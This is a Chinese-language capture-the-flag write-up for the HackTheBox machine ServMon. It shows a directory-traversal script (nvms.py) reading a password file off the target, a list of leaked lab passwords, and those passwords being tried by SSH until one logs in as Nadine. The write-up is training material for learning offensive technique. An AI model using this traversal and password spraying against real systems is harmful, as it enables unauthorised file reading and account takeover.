 ```
EGA40WOA.FON=EGA40WOA.FON                                                                                            
CGA80WOA.FON=CGA80WOA.FON                                                                                            
CGA40WOA.FON=CGA40WOA.FON    
[drivers]                                                                                                          
wave=mmdrv.dll                                                                                                        
timer=timer.drv                                                                                                  
[mci]                                                                                                                                                                                                                                   
++++++++++  END  ++++++++++     
```

成功读取，现在读取Nathan桌面下的Passwords.txt
```
┌──(root💀kali)-[~/htb/ServMon]
└─# ./nvms.py 10.10.10.184 users/Nathan/Desktop/Passwords.txt Passwords.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
                                                                                           
++++++++++  END  ++++++++++  
```

现在我们找到了一个密码字典，根据ftp的提示，其中一个是Nathan的密码

用这些密码尝试登陆web后台，失败
尝试用evil-winrm登陆Nathan的账号，失败
尝试用evil-winrm登陆Nadine的账号，失败
尝试用ssh登陆Nathan的账号，失败
有点小崩溃。。

最后ssh一个个遍历Nadine，成功了。。。

这个故事告诉我们枚举很重要。。

密码是：```L1k3B1gBut7s@W0rk```
```
ssh Nadine@10.10.10.184
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

```
在nadine的桌面拿到user.txt
